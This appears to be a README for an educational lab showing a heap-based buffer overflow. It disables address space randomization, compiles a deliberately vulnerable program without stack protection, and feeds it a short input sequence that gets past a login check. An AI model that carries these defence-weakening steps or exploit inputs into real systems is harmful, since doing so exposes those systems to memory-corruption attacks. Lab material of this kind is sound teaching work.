 # Buffer Overflow Vulnerability

The heap based attack can be demonstrated by running following steps. Let us go through it.

## Initial Setup of the Virtual Machine

To make our attack easier, we first need to disable address space
randomization, a defense against buffer overflows making guessing addresses in
the heap and stack more difficult.  To do so, we simply need to run the
following command under root privileges:

```
sudo sysctl -w kernel.randomize_va_space=0
```

A confirmation of the variable's value is printed `kernel.randomize_va_space = 0`
by the terminal. 


## Vulnerable Program

The vulnerable program is provided in the [heap.c](heap.c) file.  

```
gcc -o heap -z execstack -fno-stack-protector heap.c
```

## Exploiting the Vulnerability: Demonstration of the Buffer Overflow Attack

To demonstrate the buffer flow attack, we run the following commands:

```
./heap
```

This simply compiles and runs the [heap.c](heap.c) file. 
After this, we see the effect of heap_based overflow helping us login without actually entering the password.
```
auth bufferoverflow.net
login # not logged in yet
login 234 # not logged in yet
service heapoverflow.net
login # logged in now
service 23
login # logged in now
```






